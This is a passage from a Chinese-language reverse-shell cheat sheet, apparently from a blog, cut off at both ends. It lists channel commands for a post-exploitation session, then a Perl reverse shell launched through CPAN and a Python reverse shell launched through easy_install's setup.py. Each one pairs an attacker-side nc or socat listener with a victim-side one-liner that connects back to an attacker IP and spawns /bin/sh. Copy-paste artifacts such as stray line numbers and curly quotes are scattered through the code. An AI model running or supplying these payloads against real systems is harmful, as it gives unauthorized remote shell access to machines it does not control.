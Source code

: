 列出所有通道

windows
1

进入客户端1通道

window -i 1
1

建立反弹shell

shell
1

退出当前通道，进入shell

suspend //表示退出当前通道
Windows
window -i 2//进入shell通道后，可按ctrl+z退出当前shell
1
2
3


9.Cpan反弹
CPAN是一支Perl程序的名字，其作用是让使用者容易从CPAN下载、安装、更新及管理其他在CPAN上的Perl程式。

攻击机监听：nc -lvp RPORT
受害机：

cpan
! use Socket; my $i="[攻击机IP]"; my $p=[攻击机端口]; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};
1
2



##### 10.easy_install反弹

easy_install是由PEAK(Python Enterprise Application Kit)开发的setuptools包里带的一个命令，所以使用easy_install实际上是在调用setuptools来完成安装模块的工作。

攻击机：

socat file:`tty`,raw,echo=0 tcp-listen:12345

受害机：
export 的意思是定义全局变量。

export RHOST=192.168.85.141 export RPORT=12345 TF=$(mktemp -d) echo
‘import sys,socket,os,pty;s=socket.socket()
s.connect((os.getenv(“RHOST”),int(os.getenv(“RPORT”))))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)] pty.spawn("/bin/sh")’ >
$TF/setup.py easy_install $TF

获得响应：
